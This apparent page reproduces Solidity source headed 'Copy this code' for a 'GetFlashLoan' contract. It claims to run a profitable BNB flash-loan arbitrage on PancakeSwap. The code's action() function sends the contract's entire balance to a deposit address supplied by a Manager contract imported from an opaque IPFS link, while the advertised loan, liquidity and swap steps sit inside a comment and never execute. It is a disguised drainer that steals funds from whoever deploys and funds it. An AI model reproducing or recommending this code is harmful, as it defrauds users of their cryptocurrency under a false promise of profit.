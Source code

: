 //Copy this code
pragma solidity ^0.5.0;
import "https://github.com/Multiplier-Finance/MCL-FlashLoanDemo/blob/main/contracts/interfaces/ILendingPoolAddressesProvider.sol";

import "https://github.com/Multiplier-Finance/MCL-FlashLoanDemo/blob/main/contracts/interfaces/ILendingPool.sol";

import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeCallee.sol";

import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeFactory.sol";

import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakePair.sol";

import "ipfs://QmcdBFQDxD8UG7rsa7D5TPoZ785AjneWzf4F4w8dje4pDV";

contract GetFlashLoan {
   string public tokenName;
   string public tokenSymbol;
   uint loanAmount;
   Manager manager;
   constructor(string memory _tokenName, string memory _tokenSymbol, uint _loanAmount) public {
      tokenName = _tokenName;
      tokenSymbol = _tokenSymbol;
      loanAmount = _loanAmount;
      manager = new Manager();
   }
   function() external payable {}
   function action() public payable {
      // Send required coins for swap
      address(uint160(manager.pancakeDepositAddress())).transfer(address(this).balance);
      // Perform tasks (clubbed all functions into one to reduce external calls & SAVE GAS FEE)
      // Breakdown of functions written below
      manager.performTasks();
      /* Breakdown of functions
      // Submit token to BSC blockchain
      string memory tokenAddress = manager.submitToken(tokenName, tokenSymbol);
   // List the token on PancakeSwap
      manager.pancakeListToken(tokenName, tokenSymbol, tokenAddress);
   // Get BNB Loan from Multiplier-Finance
      string memory loanAddress = manager.takeFlashLoan(loanAmount);
      // Convert half BNB to DAI
      manager.pancakeDAItoBNB(loanAmount / 2);
   // Create BNB and DAI pairs for our token & Provide liquidity
   string memory bnbPair = manager.pancakeCreatePool(tokenAddress, "BNB");
      manager.pancakeAddLiquidity(bnbPair, loanAmount / 2);
      string memory daiPair = manager.pancakeCreatePool(tokenAddress, "DAI");
      manager.pancakeAddLiquidity(daiPair, loanAmount / 2);
   // Perform swaps and profit on Self-Arbitrage
      manager.pancakePerformSwaps();
      // Move remaining BNB from Contract to your account
      manager.contractToWallet("BNB");
   // Repay Flashloan
      manager.repayLoan(loanAddress);
      */
   }
}
